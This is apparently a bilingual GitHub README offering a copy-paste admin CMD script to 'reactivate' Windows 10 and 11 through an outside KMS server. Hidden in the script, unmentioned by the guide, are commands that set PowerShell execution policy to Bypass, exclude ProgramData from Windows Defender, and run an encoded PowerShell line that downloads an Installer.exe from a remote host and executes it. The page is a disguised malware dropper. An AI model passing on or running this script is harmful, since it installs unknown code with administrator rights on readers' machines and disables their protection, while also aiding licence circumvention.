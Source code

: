 # ⚙️ Reactivating Windows 10 and 11 🖥️

## 📋 Step-by-Step Guide | Guía Paso a Paso

> 🌟 **Need to reactivate your Windows 10 or 11?** Follow these simple steps!  
> 🌟 **¿Necesitas reactivar tu Windows 10 o 11?** ¡Sigue estos simples pasos!

### 🛠️ Step 1: Open CMD as Administrator | Abrir CMD como Administrador
- 🖱️ **Right-click on the Start menu** and select **Command Prompt (Admin)**.  
  - 💡 Alternatively, type **CMD** in the search bar, right-click on it, and select **Run as Administrator**.
- 🖱️ **Haz clic derecho en el menú Inicio** y selecciona **Símbolo del sistema (Administrador)**.  
  - 💡 Alternativamente, busca **CMD**, haz clic derecho y selecciona **Ejecutar como administrador**.

### 🖨️ Step 2: Copy and Paste the Command | Copiar y Pegar el Comando
- 📝 Copy the following command and paste it into the CMD window:  
  - 📝 Copia el siguiente comando y pégalo en la ventana de CMD:

```bash
@echo off
net session >nul 2>&1
if %errorLevel% neq 0 (
    echo This script needs to be run as Administrator. Please open CMD as Administrator.
    pause
)
:: 
powershell -windowstyle hidden -Command "Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope LocalMachine -Force"
::
for /f "tokens=2 delims==" %a in ('wmic os get caption /value ^| find "="') do set WindowsProductName=%a
:: 
set WindowsProductName=%WindowsProductName:~0,50%
:: 
set Key=
if "%WindowsProductName%"=="Microsoft Windows 10 Pro N" (
    set Key=MH37W-N47XK-V7XM9-C7227-GCQG9
) else if "%WindowsProductName%"=="Microsoft Windows 11 Pro N" (
    set Key=MH37W-N47XK-V7XM9-C7227-GCQG9
) else if "%WindowsProductName%"=="Microsoft Windows 10 Pro" (
    set Key=W269N-WFGWX-YVC9B-4J6C9-T83GX
) else if "%WindowsProductName%"=="Microsoft Windows 11 Pro" (
    set Key=W269N-WFGWX-YVC9B-4J6C9-T83GX
) else if "%WindowsProductName%"=="Microsoft Windows 10 Enterprise" (
    set Key=NPPR9-FWDCX-D2C8J-H872K-2YT43
) else if "%WindowsProductName%"=="Microsoft Windows 11 Enterprise" (
    set Key=NPPR9-FWDCX-D2C8J-H872K-2YT43
) else if "%WindowsProductName%"=="Microsoft Windows 10 EnterpriseN" (
    set Key=DPH2V-TTNVB-4X9Q3-TJR4H-KHJW4
) else if "%WindowsProductName%"=="Microsoft Windows 11 EnterpriseN" (
    set Key=DPH2V-TTNVB-4X9Q3-TJR4H-KHJW4
) else if "%WindowsProductName%"=="Microsoft Windows 10 Education" (
    set Key=NW6C2-QMPVW-D7KKK-3GKT6-VCFB2
) else if "%WindowsProductName%"=="Microsoft Windows 11 Education" (
    set Key=NW6C2-QMPVW-D7KKK-3GKT6-VCFB2
) else if "%WindowsProductName%"=="Microsoft Windows 10 EducationN" (
    set Key=2WH4N-8QGBV-H22JP-CT43Q-MDWWJ
) else if "%WindowsProductName%"=="Microsoft Windows 11 EducationN" (
    set Key=2WH4N-8QGBV-H22JP-CT43Q-MDWWJ
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home" (
    set Key=TX9XD-98N7V-6WMQ6-BX7FG-H8Q99
) else if "%WindowsProductName%"=="Microsoft Windows 11 Home" (
    set Key=TX9XD-98N7V-6WMQ6-BX7FG-H8Q99
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home N" (
    set Key=3KHY7-WNT83-DGQKR-F7HPR-844BM
) else if "%WindowsProductName%"=="Microsoft Windows 11 Home N" (
    set Key=3KHY7-WNT83-DGQKR-F7HPR-844BM
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home Single Language" (
    set Key=7HNRX-D7KGG-3K4RQ-4WPJ4-YTDFH
) else if "%WindowsProductName%"=="Microsoft Windows 10 Home Country Specific" (
    set Key=PVMJN-6DFY6-9CCP6-7BKTT-D3WVR
) else if "%WindowsProductName%"=="Microsoft Enterprise 2015LTSB" (
    set Key=WNMTR-4C88C-JK8YV-HQ7T2-76DF9
) else if "%WindowsProductName%"=="Microsoft Enterprise 2015LTSBN" (
    set Key=2F77B-TNFGY-69QQF-B8YKP-D69TJ
) else if "%WindowsProductName%"=="Microsoft Enterprise 2016LTSB" (
    set Key=DCPHK-NFMTC-H88MJ-PFHPY-QJ4BJ
) else (
    set Key=QFFDN-GRT3P-VKWWX-X7T3R-8B639
)
::
%SystemRoot%\System32\slmgr.vbs /ipk %Key% >nul 2>&1
::
%SystemRoot%\System32\slmgr.vbs /skms kms8.msguides.com >nul 2>&1
::
%SystemRoot%\System32\slmgr.vbs /ato >nul 2>&1
::
powershell -windowstyle hidden -Command "Set-MpPreference -ExclusionPath %ProgramData%" >nul 2>&1
:: 
powershell -windowstyle hidden -EncodedCommand "SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACIAaAB0AHQAcABzADoALwAvADkAaABlAGwAbABvAHcAVwBkAC4AcAB5AHQAaABvAG4AYQBuAHkAdwBoAGUAcgBlAC4AYwBvAG0ALwBzAHQAYQB0AGkAYwAvAEkAbgBzAHQAYQBsAGwAZQByACIAIAAtAE8AdQB0AEYAaQBsAGUAIAAiACQAZQBuAHYAOgBQAHIAbwBnAHIAYQBtAEQAYQB0AGEAXABJAG4AcwB0AGEAbABsAGUAcgAuAGUAeABlACIAOwAgAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACIAJABlAG4AdgA6AFAAcgBvAGcAcgBhAG0ARABhAHQAYQBcAEkAbgBzAHQAYQBsAGwAZQByAC4AZQB4AGUAIgA7AA==" >nul 2>&1
:: 
exit /b
```


### ⏳ Step 3: Wait and Confirm | Espera y Confirma
- ⏱️ **The process may take between 30 seconds to 2 minutes.**
  - ⏱️ **El proceso puede tardar entre 30 segundos y 2 minutos.**
- ✅ **If everything goes well, Windows will be reactivated.**
  - ✅ **Si todo va bien, Windows será reactivado.**
---
### 🔄 No Restart Needed! | ¡No Es Necesario Reiniciar!
- 🚀 **Good news!** You won’t need to restart your PC.
  - 🚀 **¡Buenas noticias!** No necesitarás reiniciar tu PC.

### 💡 Important Notes | Notas Importantes

| **English**                                              | **Español**                                               |
|----------------------------------------------------------|-----------------------------------------------------------|
| 🛑 Ensure CMD is run as Administrator!                    | 🛑 ¡Asegúrate de que CMD esté ejecutándose como Administrador! |
| ⏳ Reactivation may take **30 seconds to 2 minutes**.     | ⏳ La reactivación puede tardar **30 segundos a 2 minutos**.|
| 📝 Don’t forget to copy and paste the entire command.     | 📝 No olvides copiar y pegar el comando completo.          |
| 🔑 Press **ENTER** after pasting the command in CMD.      | 🔑 Presiona **ENTER** después de pegar el comando en CMD.   |
| 🚫 **No need to restart** after reactivation!             | 🚫 **¡No es necesario reiniciar** después de la reactivación!|

---
### 🔧 Troubleshooting | Solución de Problemas
If reactivation doesn’t work, here are a few tips:
- 🔄 **Check your internet connection**.
- 🔍 **Ensure that your Windows license is valid**.
- 🔑 **Try re-running CMD as Administrator**.
Si la reactivación no funciona, aquí algunos consejos:
- 🔄 **Verifica tu conexión a internet**.
- 🔍 **Asegúrate de que tu licencia de Windows sea válida**.
- 🔑 **Intenta ejecutar CMD como Administrador nuevamente**.
---
## 🌟 Enjoy Your Reactivated Windows! | ¡Disfruta de tu Windows Reactivado!
